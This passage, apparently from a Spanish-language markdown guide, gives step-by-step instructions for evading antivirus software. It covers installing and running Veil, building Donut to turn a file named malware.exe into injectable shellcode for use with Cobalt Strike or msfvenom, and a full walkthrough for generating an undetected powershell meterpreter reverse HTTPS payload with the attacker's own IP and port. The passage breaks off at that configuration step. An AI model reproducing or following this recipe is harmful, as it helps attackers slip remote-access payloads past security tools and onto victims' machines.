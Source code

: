 Esto instalará todas las dependencias y configurará Veil.

📌 Ejecutar:

```bash
./Veil.py
```

---

#### ✅ Donut

**Crea shellcode desde archivos PE o .NET**

```bash
git clone https://github.com/TheWover/donut.git
cd donut
mkdir build && cd build
cmake ..
make
```

Uso básico:

```bash
./donut /ruta/a/malware.exe
```

Esto generará un `shellcode` que puedes inyectar en memoria con otras herramientas como Cobalt Strike o msfvenom.

---

### 🎯 Ejemplo completo: Evasión simple con Veil

#### 🎬 Escenario:

Quieres entregar un **payload meterpreter** que no sea detectado por un antivirus común.

#### 🪛 Paso a paso:

##### 1. Iniciar Veil

```bash
cd Veil
./Veil.py
```

##### 2. Elegir Payload

Selecciona:

```
[1] powershell/meterpreter/rev_https
```

##### 3. Configurar IP y Puerto

- LHOST = Tu IP
- LPORT = Puerto (por ejemplo, 443)
